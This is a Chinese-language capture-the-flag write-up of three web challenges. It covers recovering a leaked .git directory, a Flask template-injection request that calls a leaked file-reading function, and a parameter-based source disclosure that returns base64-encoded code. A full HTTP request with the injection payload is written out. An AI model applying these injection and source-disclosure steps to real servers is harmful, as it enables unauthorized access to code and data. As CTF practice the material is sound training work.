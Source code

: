       
----

## Web 19

一开始用githack恢复，没找到点

后来发现这题的关键是需要拿到git参数文件

就是得拿到git配置文件

用rip-git.pl 抓取文件

然后，git log 一下 可以发现有两个记录

git reset --hard 570fa7812efa63a398471e48d51bf24eeaa99358(init)

再查看hack.php就找到了flag



----

## Web 20

flask注入。。。

试探了好久，还是没找到flag

后来，队友提醒，其实是个源码泄漏

先使网页报错，报错页面有一个这样的代码：


```
def get_user_file(f_name):
    if(f_name =='473bfa63bfeb1e673d6d151a799af923.py'):
        with open(f_name) as f:
            return f.readlines()
```

然后，用get_user_file获取下这个文件

```
GET /?data=sleep\{\{get_user_file('473bfa63bfeb1e673d6d151a799af923.py')\}\} HTTP/1.1
Host: 218.76.35.75:20102
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://218.76.35.75:20102/?data=sleep
Cookie: PHPSESSID=ckn46fftq7a54hue8klnjh2646
Connection: close
```

---
## Web 21
view-source:http://218.76.35.75:20106/index.php?image=index.php
看到base64编码的代码，反解一下得到index.php的源码
